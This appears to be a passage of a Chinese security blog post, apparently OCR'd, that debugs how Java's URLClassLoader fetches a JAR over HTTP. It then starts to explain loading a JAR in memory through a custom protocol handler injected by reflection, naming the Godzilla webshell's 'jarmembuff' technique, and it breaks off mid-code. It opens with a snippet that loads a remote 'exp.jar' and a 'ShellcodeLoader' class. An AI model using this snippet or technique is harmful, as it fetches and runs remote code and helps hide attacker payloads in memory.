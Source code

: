     
          1. URLClassLoader loader = new URLClassLoader(new URL[]{new URL("http://yzddmr6.com/exp.jar")});
    
      2. loader.loadClass("asexploits.ShellcodeLoader");
    
    
    

为了摸清这一过程，我们用上面的代码对http协议加载Jar包过程进行调试： 在java.net.URL#URL(java.net.URL,
java.lang.String,
java.net.URLStreamHandler)断点，发现会根据获取到的协议方式拿到不同的handler，例如http://yzddmr6.com/exp.jar，就会获取http的handler，file:///tmp/exp.jar就会获取file类型的hander
java.net.URL#getURLStreamHandler![]()之前查找到的hander会被保存到handlers整个缓存中，如果没有就会进行一个包名的拼接:
"sun.net.www.protocol"+protocol+".Handler"，找到对应的处理类![]()其实这里的协议是可以构造的，例如我们可以设置一种abc://127.0.0.1/exp.jar，就会识别为abc协议![]()然后在java.net.URL#getURLStreamHandler判断如果handlers里没有缓存，就会尝试去寻找sun.net.www.protocol.abc.Handler这个类，这里handlers属性是一个重点。![]()![]()

除了sun.net.www.protocol.http.Handler以外，默认的JDK还支持以下协议，可以看看：![]()

后续就会依次经过以下步骤， java.net.URL#openConnection java.net.URL#openStream
sun.misc.URLClassPath.JarLoader#getJarFile(java.net.URL)![]()在sun.net.www.protocol.http.Handler#openConnection(java.net.URL,
java.net.Proxy)中会返回一个新的HttpURLConnection对象，该对象主要负责具体对远程地址的请求，获取Jar的内容。![]()

可以看到在http协议加载Jar过程中有两个重要的类：

  * sun.net.www.protocol.http.HttpURLConnection

  * sun.net.www.protocol.http.Handler

这两个类都与HTTP协议相关，在Java中用于处理HTTP连接和请求：

  * sun.net.www.protocol.http.HttpURLConnection类是Java标准库中的一个类，它继承自java.net.HttpURLConnection类，用于创建HTTP连接并发送HTTP请求。它提供了一组方法来设置请求的参数、发送请求、获取响应等操作，使开发者可以通过该类与远程服务器进行HTTP通信。

  * sun.net.www.protocol.http.Handler类是Java虚拟机（JVM）中的一个实现类，它实现了java.net.URLStreamHandler接口。URLStreamHandler接口定义了处理不同URL协议的方法，而sun.net.www.protocol.http.Handler类具体处理HTTP协议。它负责解析并处理URL对象中的HTTP部分，包括建立HTTP连接、发送HTTP请求等操作，这些操作实际是由HttpURLConnection来实现。

这两个类是获取Jar包内容的核心所在，想要实现内存加载Jar的关键部分就在这里。

## 内存加载Jar原理

综合看下来，最简单的办法就是实现一套自定义一套协议，在http协议的基础上修改获取Jar的逻辑，这也是beichen师傅的做法

### 增加自定义protocol

在哥斯拉中叫jarmembuff，在这里我们直接把协议跟对应的handler塞到URL对象的handlers缓存中，核心代码：

    
          1. Field declaredField = null;
    
      2. files = new ArrayList();
    
      3.   4. try {
    
      5.     declaredField = URL.class.getDeclaredField("handlers");
    
      6. } catch (NoSuchFieldException var7) {
    
      7.     try {
    